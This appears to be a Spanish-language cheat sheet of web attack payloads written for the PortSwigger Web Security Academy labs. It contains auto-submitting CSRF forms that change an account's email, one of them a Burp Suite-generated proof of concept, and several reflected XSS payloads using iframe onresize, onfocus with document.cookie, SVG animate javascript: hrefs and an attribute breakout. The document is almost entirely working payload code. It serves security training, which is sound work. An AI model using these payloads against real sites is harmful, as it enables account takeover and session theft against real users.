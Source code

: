 ## Ejemplo CSRF
~~~html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
	<input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
	document.forms[0].submit();
</script>
~~~

## Ejemplo CSRF sin parametro CSRF
~~~html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
	<form action="https://000.web-security-academy.net/my-account/change-email" method="POST">
	  <input type="hidden" name="email" value="new1234&#64;email&#46;com" />
	  <input type="submit" value="Submit request" />
	</form>
	<script>
	  document.forms[0].submit();
	</script>
  </body>
</html>

~~~

## XSS

+ https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## XSS Reflejado

~~~html
<iframe src="https://000.web-security-academy.net/?search=%3Cbody+onresize=print(1)%3E" width="1px" onload=this.style.width='0px'></iframe>
~~~


~~~html
<script>
location = "https://000.web-security-academy.net/?search=%3Cvideo2+id=x+onfocus=alert(document.cookie)+tabindex=1%3E#x";
</script>
~~~

~~~html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me1</text></a>
~~~

### A partir del tag de value en un input
~~~html
"onmouseover="alert(1)
~~~
